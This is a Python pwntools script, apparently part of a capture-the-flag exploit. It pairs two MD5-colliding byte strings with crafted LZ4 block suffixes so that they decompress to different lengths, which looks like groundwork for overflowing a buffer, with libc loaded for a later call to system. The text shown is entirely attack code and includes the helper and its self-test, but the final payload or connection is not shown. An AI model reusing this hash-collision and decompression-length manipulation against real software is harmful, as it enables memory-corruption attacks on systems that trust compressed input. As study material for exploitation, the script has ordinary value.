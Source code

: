 ```py
from pwn import *
import lz4.block
from hashlib import md5

context(log_level='debug', terminal=['alacritty', '-e'], arch='amd64', bits=64)


def compress(data):
  return lz4.block.compress(data, store_size=False)


def decompress(data):
  return lz4.block.decompress(data, uncompressed_size=0x1000)


c1 = bytes.fromhex(
  '604141414141410100fe664242424242514237cbdec7a38e87cb47c9d1f2189bb7eaee58ee29e8d4512e238e2d91d9cf74f3cf4b197bb578c81bb0f6d4cd8b2ced74225bf5fa6a44badf8b76901b9b36f1175737170a9ab545f79166b9ba64b4267d14bd034377c155db9ef0a6416e6c8eafa96c65e9021587d5d2656360f878')
c2 = bytes.fromhex(
  '604141414141410100ff664242424242514237cbdec7a38e87cb47c9d1f2189bb7eaee58ee29e8d4512e238e2d91d9cf74f3cf4b197bb578c81bb0f6d4cd8b2ced74225bf5fa6a44bade8b76901b9b36f1175737170a9ab545f79166b9ba64b4267d14bd034377c155db9ef0a6416e6c8eafa96c65e9021587d5d2656360f878')
assert md5(c1).digest() == md5(c2).digest()

LIBC = ELF('libc.so.6', False)
# print(hex(E.symbols.read))
# print(hex(E.symbols.system))

def make_suffix(length, end):
  L = length - 150
  for i in (0, 1):
    l0 = (L - i * 0x10) & 0xf0
    l1 = (l0 >> 4) - 1
    pad = L - l0 - l1
    if pad >= 0:
      break
  assert pad >= 0
  s = bytearray([1, 0, l0, l0 - 0x10] + [0x42] * l1 + [1, 0])

  rem = pad + len(end)
  assert rem >= 5
  s.append((l2 := min(0xf, rem)) << 4)
  rem -= l2
  if l2 == 0xf:
    s.append(rem)
    assert rem < 0x100

  s.extend(b'C' * pad)
  s.extend(end)

  s = bytes(s)
  assert len(c1 + s) <= 0xc0
  assert len(decompress(c1 + s)) < 0x100
  assert len(x := decompress(c2 + s)) - len(end) == length
  assert x.endswith(end)
  return s


def test_suffix():
  make_suffix(256, b'deadbeef')
  make_suffix(300, b'hello world')
  make_suffix(400, b'hello world')
```